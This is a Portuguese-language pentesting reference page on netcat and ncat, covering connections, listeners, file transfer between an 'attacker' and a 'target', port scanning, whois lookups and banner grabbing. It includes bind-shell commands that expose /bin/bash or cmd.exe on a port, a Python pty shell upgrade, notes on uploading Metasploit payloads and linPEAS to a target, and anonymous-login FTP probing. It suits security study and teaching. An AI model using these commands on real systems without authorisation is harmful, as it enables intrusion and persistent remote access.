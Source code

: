 ```yaml
---
id: netcat
title: netcat
---
```


O utilitário `nc` (ou netcat) é usado para quase tudo sob o sol envolvendo
soquetes de domínio TCP, UDP ou UNIX. Ele pode abrir conexões TCP, enviar
pacotes UDP, escutar em portas TCP e UDP arbitrárias, fazer varredura de portas
e lidar com IPv4 e IPv6. Ao contrário do `telnet`, o `nc` faz scripts bem e
separa as mensagens de erro no erro padrão, em vez de enviá-las para a saída
padrão, como o `telnet` faz com alguns.

Os usos comuns incluem:

- Proxies TCP simples;
- Clientes e servidores HTTP baseados em shell-script;
- Teste de daemon de rede;
- SOCKS ou HTTP ProxyCommand para SSH;
- E muito, muito mais...

---

## Conectando

Abaixo temos o uso básico do `nc`, utilizando por padrão o protocolo TCP:

```bash
nc 172.16.1.4 110
```

Em alguns casos procisamos de mais informação, por exemplo que a conexão foi
estabelecida e para isso utilizamos o modo verboso passando o argumento `-v`:

```bash
nc -v 172.16.1.4
```

Para efetuar conexões utilizando o protocolo UDP basta utilizar o argumento
`-u`:

```bash
nc -u 127.0.0.1 9000
```

## Escutando

É possível expor uma porta para conexão utilizando o `nc`, porém parece não ser
muito funcional se não utilizado para expor uma shell ou para transferir
arquivos, contudo esse modo pode ser útil para validar portas abertas no
firewall, onde exponho uma porta e verifico se o firewall permite acesso à ela.
Para expor essa porta no alvo utilizamos o argumento `-l`:

```bash
nc -vl 5050
```

Depois podemos utilizar o comando `netstat` para verificar o estado da porta no
sistema alvo:

```bash
netstat -nlpt
```  

Para portas UDP basta utilizar o argumento `-u`:

```bash
nc -vlu 9000
```

## Transferência de arquivo

A transferência de arquivo é muito importante porque o `nc` não possui a função
de expor uma shell, porém o pacote `ncat`, mantido pelo projeto do `nmap`,
possui essa função muito útil. Além disso em muitos momentos temos a necessidade
de subir binários gerados pelo `metasploit` com a intenção de persistir uma
shell ou até mesmo alguns scripts como o `linPEAS` para enumeração.

Para a transferência de arquivos uilizando o `nc` temos dois cenários, um onde o
servidor alvo espera a conexão e no outro caso onde o servidor alvo faz uma
conexão, abaixo teremos os dois exemplos.

### Alvo ← Atacante (Upload)

No servidor alvo:

```bash
nc -lv 5050 > ncat
```

No sistema do atacante:

```bash
nc -v 172.16.2.6 5050 < ncat
```

### Alvo → Atacante (Download)

No sistema do atacante:

```bash
nc -lv 5050 < ncat
```

No servidor alvo:

```bash
nc -v 172.16.2.5 > ncat
```

## Enviando `stdout` para Conexão

Nesse exemplo vamos enviar o output de algum comando via `ncat`.

```bash
nc -lv 5050 < <(cat /etc/os-release)
```

Quando fizermos a conexão na porta 5050 iremos receber a saída do comando
`cat /etc/os-release`:

```bash
$ nc -v 127.0.0.1 5050
Connection to 127.0.0.1 5050 port [tcp/*] succeeded!
PRETTY_NAME="Ubuntu 22.04.4 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.4 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```

## Expondo Shell

Expondo shell no Linux:

```bash
ncat -vnlp 5050 -e /bin/bash
```

Expondo shell no Windows:

```bash
ncat -vnlp 5050 -e cmd.exe
```

:::info
Os dois comandos acima são um modelo de shell simples onde devem ser executadas
na máquina alvo.  
Note também que estamos utilizando o `ncat` ao invés do `nc`, sendo que o
primeiro possui mais funções.
:::

Após obter a shell com o `ncat`, podemos chamar um pseudo terminal usando
Python, onde irá melhorar considerávelmente a shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Escaneando Portas

Para escanear uma porta específica basta utilizar o argumento `-z`:

```bash
nc -vnz 172.16.1.5 22
```

Escaneando um range de portas:

```bash
nc -vnz 172.16.1.5 19-30
```

:::info
Será escaneado da porta 19 até a porta 30.
:::  

Podemos também especificar o *timeout* para cada porta com o argumento `-w`:

```bash
nc -vnz -w2 172.16.1.5 22
```

:::info
Será escaneado levando em consideração um *timeout* de 2 segundos (`-w2`).
:::

Escaneando portas UDP com o argumento `-u`:

```bash
nc -vnzu 172.16.1.5 22
```

## Whois

Com o `nc`também é capaz de fazer pesquisas de domínio diretamente no
registro.br:

```bash
echo "uol.com.br" | nc registro.br 43
```

:::caution
O **registro.br** aceita somentes domínios, ASNs e blocos de IPs brasileiros.  
Para verificação extrangeira utilize o **whois.internic.net**:

```bash
echo "domain google.com" | nc whois.internic.net 43
```

:::

## Banner Grabbing

### HTTP

```bash
$ nc -vn www.alvo.com 80
HEAD / HTTP/1.0
```

### FTP

```bash
$ nc -v 192.168.1.100 21
USER anonymous
PASS anonymous
```

:::info
Sempre teste com usuário `anonymous` e senha `anonymous`.  
Caso o login tenha sido aceito, será retornado o código `230 Login successful`.
:::

:::info
Servidor de teste:

**Domain:** ftp.dlptest.com  
**User:** dlpuser  
**Password:** rNrKYTX9g7z3RgJRmxWuGHbeu

[https://dlptest.com/ftp-test/](https://dlptest.com/ftp-test/)
:::
